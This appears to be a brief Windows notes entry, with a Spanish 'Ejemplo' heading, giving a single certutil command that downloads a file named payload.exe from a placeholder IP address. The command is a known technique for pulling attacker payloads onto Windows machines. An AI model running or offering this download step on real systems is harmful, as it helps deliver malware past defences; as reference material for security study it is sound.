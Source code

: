 -------------------
- tags: #windows 
-----------------

## Ejemplo
	certutil -urlcache -f http://x.x.x.x/payload.exe payload.exe 

